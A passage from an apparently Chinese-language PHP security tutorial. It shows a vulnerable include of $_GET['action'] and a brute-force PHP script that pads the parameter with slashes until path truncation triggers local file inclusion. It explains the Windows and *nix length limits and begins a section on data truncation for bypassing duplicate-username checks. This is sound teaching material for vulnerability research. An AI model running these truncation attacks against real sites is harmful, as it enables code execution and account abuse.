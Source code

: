 ``` php
  
<?php
  
////////////////////
  
////var5.php代码:
  
////include $_GET['action'].".php"; 
  
////print strlen(realpath("./"))+strlen($_GET['action']);  
  
///////////////////
  
ini_set('max_execution_time', 0);
  
$str='';
  
for($i=0;$i<50000;$i++)
  
{
  
        $str=$str."/";
  

  
        $resp=file_get_contents('http://127.0.0.1/var/var5.php?action=1.txt'.$str);
  
        //1.txt里的代码为print 'hi';
  
        if (strpos($resp, 'hi') !== false){
  
                print $i;
  
                exit;
  
        }
  
}
  
?>
  
```
  
经过测试字符“.”、“ /”或者2个字符的组合，在一定的长度时将被截断，win系统和&#42;nix的系统长度不一样，当win下strlen(realpath("./"))+strlen($_GET['action'])的长度大于256时被截断，对于&#42;nix的长度是4 * 1024 = 4096。对于php.ini里设置远程文件关闭的时候就可以利用上面的技巧包含本地文件了。（此漏洞由cloie#ph4nt0m.org最先发现]）
  

  
#### 数据截断
  
对于很多web应用文件在很多功能是不容许重复数据的，比如用户注册功能等。一般的应用程序对于提交注册的username和数据库里已有的username对比是不是已经有重复数据，然而我们可以通过“数据截断”等来饶过这些判断，数据库在处理时候产生截断导致插入重复数据。
  